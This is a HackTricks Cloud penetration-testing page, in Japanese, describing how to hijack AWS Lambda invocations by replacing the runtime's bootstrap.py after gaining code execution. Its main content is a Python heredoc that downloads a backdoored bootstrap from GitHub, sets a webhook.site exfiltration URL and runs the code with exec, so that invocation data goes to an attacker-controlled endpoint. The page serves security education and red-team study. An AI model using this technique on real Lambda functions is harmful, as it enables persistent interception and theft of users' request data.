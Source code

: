 # AWS - Lambdaリクエストの盗み出し

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見る
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する
* **ハッキングトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## Lambdaフロー

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**は、コンテナ外のプロセスで、**init**プロセスに**呼び出し**を送信します。
2. initプロセスは、いくつかの興味深いエンドポイントを公開するポート**9001**でリスンします:
* **`/2018-06-01/runtime/invocation/next`** – 次の呼び出しイベントを取得します
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 呼び出しのハンドラ応答を返します
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返します
3. **bootstrap.py**は、initプロセスから呼び出しを取得するループを持ち、ユーザーのコードを処理するためにそれらを呼び出します(**`/next`**)。
4. 最後に、**bootstrap.py**はinitに**応答**を送信します

ユーザーコードはモジュールとして読み込まれるため、ユーザーコードによって実行されるコード実行は実際にはこのプロセスで行われています。

## Lambdaリクエストの盗み出し

この攻撃の目的は、ユーザーコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行させることです。これにより、**悪意のあるbootstrap**プロセスは**initプロセスと通信**を開始してリクエストを処理し、一方で**正規**のbootstrapは**悪意のあるプロセスを実行**しているため、initプロセスにリクエストを要求しません。

これは、ユーザーコードが正規の**`bootstrap.py`**プロセスによって実行されているため、簡単に達成できるタスクです。したがって、攻撃者は次のことができます:

* **現在の呼び出しの偽の結果をinitプロセスに送信**して、initがbootstrapプロセスがさらに呼び出しを待っていると思うようにします。
* リクエストを**`/${invoke-id}/response`**に送信する必要があります
* invoke-idは、正規の**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) pythonモジュールを使用して取得できます（[こちらで提案されているように](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）または単に再度**`/2018-06-01/runtime/invocation/next`**にリクエストして取得できます（[こちらで提案されているように](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 次の呼び出しを処理する悪意のある**`boostrap.py`**を実行します
* ステルス性を確保するために、Lambda呼び出しのパラメータを攻撃者が制御するC2に送信し、その後通常通りリクエストを処理できます。
* この攻撃では、現在のLambda呼び出しから**`bootstrap.py`**の元のコードを取得し、[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から悪意のあるコードを追加して実行するだけで十分です。

### 攻撃手順

1. **RCE**の脆弱性を見つける
2. **悪意のある** **bootstrap**を生成する（例: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **悪意のある** **bootstrap**を実行する

これらのアクションを簡単に実行できます。
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
詳細については[https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)を参照してください。

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>でAWSハッキングをゼロからヒーローまで学ぶ</summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
